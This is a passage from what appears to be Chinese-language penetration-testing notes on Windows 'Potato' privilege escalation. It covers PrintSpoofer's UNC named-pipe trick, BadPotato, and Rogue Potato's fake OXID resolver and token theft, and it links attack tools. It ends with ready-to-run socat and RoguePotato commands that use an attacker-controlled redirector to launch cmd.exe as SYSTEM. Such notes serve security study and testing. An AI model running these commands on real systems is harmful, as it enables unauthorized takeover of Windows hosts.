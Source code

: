 作者在这里利用了 windows UNC 路径规范化的技巧绕过了这个限制

考虑到 UNC 路径的性质，如果主机名包含 /，它将通过路径检查，但真正连接的时候会转化为 \ 。那么，如果传递一个 \\127.0.0.1/pipe/foo，检查时会认为 127.0.0.1/pipe/foo 是一个主机名，随后在连接 named pipe 时会对参数做标准化，于是就会连接 \\127.0.0.1\pipe\foo\pipe\spoolss，那么攻击者就可以把主机名改为 \\127.0.0.1/pipe/foo 并注册这个 named pipe 从而窃取 client 的 token。

利用工具：
- [itm4n/PrintSpoofer: Abusing impersonation privileges through the "Printer Bug"](https://github.com/itm4n/PrintSpoofer)

参考：
- [Windows 命名管道客户端模拟和 PrintSpoofer 原理探究](https://paper.seebug.org/2090/)

### Bad Potato
BadPotato是C#版本的PrintSpooler，结构代码也更加简化，并且恶意管道服务端用的是对方机器的名字，而PrintSpooler用的是随机生成的UUID，pipePotato则是固定的"xxx"（导致可用性也更低）

利用工具：
- [BeichenDream/BadPotato: Windows 权限提升 BadPotato](https://github.com/BeichenDream/BadPotato)

### Rogue Potato
为了修补 Juicy Potato，高版本的 Windows DCOM 解析器不允许 OBJREF 中的 DUALSTRINGARRAY 字段指定端口号。

**利用条件：**
1. 我们需要有一台机器在我们的控制之下，我们可以在其中执行重定向，并且受害者必须可以在端口 135上访问该机器
2. 我们需要上传两个 exe 文件，当受害者的防火墙不接受传入连接时，也可以在我们控制的 Windows 机器上以独立模式启动伪造的 OXID 解析器

![20231120041332](https://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/20231120041332.png)

利用思路：
1. Rogue Potato 的利用思路是在远程服务器的 135 端口上做一个转发，用于将 OXID 解析请求重定向到一个假的OXID RPC 服务器。

2. 伪造的OXID RPC 服务器实现了ResolveOxid2服务器过程，该过程将指向受控命名管道[ncacn_np:localhost/pipe/roguepotato[\pipe\epmapper]

3. DCOM 服务器将连接到 RPC 服务器以执行 IRemUnkown2 接口调用。通过连接到命名管道，将执行"身份验证回调"，我们可以通过 RpcImpersonateClient()调用模拟调用者。

4. 然后,令牌窃取者
  1.获取rpcss服务的PID
  2.打开进程，列出所有句柄，并为每个句柄尝试复制它并获取句柄类型
  3.如果句柄类型为"Token"且令牌所有者为 SYSTEM，则尝试使用CreatProcessAsUser()或CreateProcessWithToken()模拟并启动进程

**影响范围：**
- \>= Windows 10 1809 & Windows Server 2019 

利用工具：
- https://github.com/antonioCoco/RoguePotato

```bash
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. 
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```
